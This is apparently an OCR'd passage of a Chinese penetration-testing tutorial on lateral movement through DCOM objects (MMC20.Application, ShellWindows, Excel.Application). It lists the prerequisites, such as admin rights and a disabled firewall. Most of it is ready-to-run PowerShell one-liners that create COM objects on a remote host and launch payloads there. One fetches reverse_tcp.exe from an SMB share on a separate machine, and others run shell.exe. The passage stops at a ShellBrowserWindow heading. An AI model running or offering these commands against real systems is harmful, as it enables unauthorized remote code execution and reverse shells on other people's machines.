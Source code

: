 目前常利用的DCOM组件有：MMC20.Application、ShellWindows、Excel.Application、ShellBrowserWindow等。

使用DCOM在远程主机上面执行命令，需要具有以下条件：

-   **具有管理员权限的PowerShell**
-   **可能需要关闭目标系统的防火墙。**
-   **在远程主机上执行命令时，必须使用域管的administrator账户或者目标主机具有管理员权限的账户**

## [MMC20.Application](#toc_mmc20application)

MMC20.Application对象的Document.ActiveView下存在一个ExecuteShellCommand方法，可以用来启动子进程并运行执行的程序或系统命令。

```plain
# 通过progID与DCOM进行远程交互，并创建MMC20.Application对象的示例 
$com =[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")) 

# 调用ExecuteShellCommand方法启动进程，运行攻击载荷 $com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized") 

# 合并一句话 [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized")
```

## [ShellWindows](#toc_shellwindows)

ShellWindows组件提供了Document.Application.ShellExecute方法，适用于Windows7及以上的系统。

```plain
# 通过PowerShell与DCOM进行远程交互，创建ShellWindows对象的实例: 
$com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1 .131")) 

# 然后执行如下命令，我们就可以调用该对象的"ShellExecute"方法在远程主机上启动进程: $com.item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0) 

# 完整的命令: 
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1.131")).item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0)
```

### [Excel.Application](#toc_excelapplication)

```plain
# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例: 
$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.1.131")) 
$com.DisplayAlerts = $false 

# 然后执行如下命令，我们就可以调用该对象的"DDEInitiate"方法在远程主机上启动进程: $com.DDEInitiate("cmd.exe","/c C:\shell.exe")
```

### [ShellBrowserWindow](#toc_shellbrowserwindow)
